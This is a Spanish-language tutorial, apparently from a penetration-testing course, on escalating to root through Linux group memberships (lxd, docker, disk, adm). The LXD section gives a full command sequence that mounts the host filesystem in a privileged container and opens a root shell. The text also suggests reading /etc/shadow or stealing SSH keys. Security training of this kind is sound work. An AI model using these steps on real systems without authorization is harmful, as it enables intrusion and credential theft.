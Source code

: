 ## LXC / LXD

LXD es similar a Docker y es el administrador de contenedores de Ubuntu. Al instalarlo, todos los usuarios se agregan al grupo LXD. La pertenencia a este grupo puede ser utilizada para escalar privilegios creando un contenedor LXD, haciéndolo privilegiado y luego accediendo al sistema de archivos del host en `/mnt/root`. Confirmemos la pertenencia al grupo y usemos estos derechos para escalar a root.

```r
devops@NIX02:~$ id

uid=1009(devops) gid=1009(devops) groups=1009(devops),110(lxd)
```

Descomprime la imagen de Alpine.

```r
devops@NIX02:~$ unzip alpine.zip 

Archive:  alpine.zip
extracting: 64-bit Alpine/alpine.tar.gz  
inflating: 64-bit Alpine/alpine.tar.gz.root  
cd 64-bit\ Alpine/
```

Inicia el proceso de inicialización de LXD. Elige los valores predeterminados para cada solicitud. Consulta este [post](https://www.digitalocean.com/community/tutorials/how-to-set-up-and-use-lxd-on-ubuntu-16-04) para más información sobre cada paso.

```r
devops@NIX02:~$ lxd init

Do you want to configure a new storage pool (yes/no) [default=yes]? yes
Name of the storage backend to use (dir or zfs) [default=dir]: dir
Would you like LXD to be available over the network (yes/no) [default=no]? no
Do you want to configure the LXD bridge (yes/no) [default=yes]? yes

/usr/sbin/dpkg-reconfigure must be run as root
error: Failed to configure the bridge
```

Importa la imagen local.

```r
devops@NIX02:~$ lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine

Generating a client certificate. This may take a minute...
If this is your first time using LXD, you should also run: sudo lxd init
To start your first container, try: lxc launch ubuntu:16.04

Image imported with fingerprint: be1ed370b16f6f3d63946d47eb57f8e04c77248c23f47a41831b5afff48f8d1b
```

Inicia un contenedor privilegiado con `security.privileged` establecido en `true` para ejecutar el contenedor sin un mapeo de UID, haciendo que el usuario root en el contenedor sea el mismo que el usuario root en el host.

```r
devops@NIX02:~$ lxc init alpine r00t -c security.privileged=true

Creating r00t
```

Monta el sistema de archivos del host.

```r
devops@NIX02:~$ lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true

Device mydev added to r00t
```

Finalmente, abre una shell dentro de la instancia del contenedor. Ahora podemos navegar por el sistema de archivos montado del host como root. Por ejemplo, para acceder al contenido del directorio root en el host escribe `cd /mnt/root/root`. Desde aquí podemos leer archivos sensibles como `/etc/shadow` y obtener hashes de contraseñas o acceder a las claves SSH para conectarnos al sistema host como root, y más.

```r
devops@NIX02:~$ lxc start r00t
devops@NIX02:~/64-bit Alpine$ lxc exec r00t /bin/sh

~ # id
uid=0(root) gid=0(root)
~ # 
```

---

## Docker

Colocar a un usuario en el grupo docker es esencialmente equivalente a acceso a nivel root al sistema de archivos sin requerir una contraseña. Los miembros del grupo docker pueden iniciar nuevos contenedores docker. Un ejemplo sería ejecutar el comando `docker run -v /root:/mnt -it ubuntu`. Este comando crea una nueva instancia de Docker con el directorio /root del sistema de archivos del host montado como un volumen. Una vez iniciado el contenedor, podemos navegar al directorio montado y recuperar o agregar claves SSH para el usuario root. Esto podría hacerse para otros directorios como `/etc` que podrían usarse para recuperar el contenido del archivo `/etc/shadow` para cracking de contraseñas offline o agregar un usuario privilegiado.

---

## Disk

Los usuarios dentro del grupo disk tienen acceso completo a cualquier dispositivo contenido dentro de `/dev`, como `/dev/sda1`, que es típicamente el dispositivo principal utilizado por el sistema operativo. Un atacante con estos privilegios puede usar `debugfs` para acceder a todo el sistema de archivos con privilegios de root. Al igual que con el ejemplo del grupo Docker, esto podría aprovecharse para recuperar claves SSH, credenciales o agregar un usuario.

---

## ADM

Los miembros del grupo adm pueden leer todos los registros almacenados en `/var/log`. Esto no otorga acceso directo a root, pero podría aprovecharse para recopilar datos sensibles almacenados en archivos de registro o enumerar acciones de usuarios y trabajos cron en ejecución.

```r
secaudit@NIX02:~$ id

uid=1010(secaudit) gid=1010(secaudit) groups=1010(secaudit),4(adm)
```